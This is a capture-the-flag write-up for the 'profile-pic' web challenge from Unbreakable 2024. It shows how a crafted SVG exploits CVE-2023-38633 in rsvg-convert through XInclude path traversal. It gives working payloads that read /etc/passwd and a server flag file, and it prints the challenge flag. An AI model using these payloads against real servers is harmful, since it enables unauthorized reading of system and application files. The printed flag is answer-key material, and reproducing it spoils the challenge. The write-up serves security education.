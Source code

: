 ```yaml
---
title: profile-pic
date: 2024-04-07T12:50:30+03:00
description: Writeup for profile-pic [Unbreakable 2024]
author: H0N3YP0T
tags:
- web
draft: false
---
```

___

## Challenge Description

Can you change my profile picture in a hacker way?

Flag format: ctf{sha256sum}


## Intuition

The website is very simple with an upload feature. It means the attack vector is certainly a file upload vulnerability.
The server is PHP because I can add `index.php` at the end of the home page. We first thought about injecting php code, but
we finally looked at XXE upload chaining with the upload feature.

![img.png](/images/unbreakable_2024/profile.png)

Another hint about svg exploit was that the file was renamed and retyped to `png` after upload therefore it was obvious
that we had to exploit something else than php.

![img.png](/images/unbreakable_2024/png.png)

## Solution

The first step is to bypass the length check of the image. We can do this by changing the content-type of the image to `text/xml` and then upload a simple XML file.
![img.png](/images/unbreakable_2024/size.png)

![img.png](/images/unbreakable_2024/error.png)

The correct size is actually 50x50px. We can bypass this as follows:

```xml
<?xml version="1.0" encoding="iso-8859-1"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg width="50" height="50" xmlns:xi="http://www.w3.org/2001/XInclude">
</svg>
```
The next step was to try to read source code or run commands using `expect://` or `file://` but it didn't work.
We noticed the error message above about the size and library `rsvg-convert` so we looked for recent exploits and 
found [this one](https://secalerts.co/vulnerability/CVE-2023-38633) therefore we tried to exploit it.

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg width="50" height="50" xmlns:xi="http://www.w3.org/2001/XInclude">
    <rect width="50" height="50" style="fill:rgb(255,255,255);" />
    <text x="10" y="10">
        <xi:include href=".?../../../../../../../etc/passwd" parse="text" encoding="UTF-8">
            <xi:fallback>file not found</xi:fallback>
        </xi:include>
    </text>
</svg>
```

![img.png](/images/unbreakable_2024/passwd.png)

We got it something ! Now it is time to read the flag file. And after enumerating some default paths for Apache server,
we found the flag in `/var/www/html/flag.php`.

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg width="50" height="50" xmlns:xi="http://www.w3.org/2001/XInclude">
  <rect width="50" height="50" style="fill:rgb(255,255,255);" />
  <text x="-610" y="25">
    <xi:include href=".?../../../../../../../var/www/html/flag.php" parse="text" encoding="UTF-8">
      <xi:fallback>file not found</xi:fallback>
    </xi:include>
  </text>
</svg>
```
![img.png](/images/unbreakable_2024/flag.png)

The last step is to play with the following param `<text x="-610"` in order to read the flag.

### Flag

`CTF{af0a742b17dd73ca3d8ff27c885350a890c4ab104670fa3373de63c7709925b0}`

## Acknowledge

This writeup was co-authored by [sunbather](https://github.com/costinteo), [Koyossu](https://github.com/SecioreanuStefanita) and [H0N3YP0T](https://github.com/Mathis-Dory).

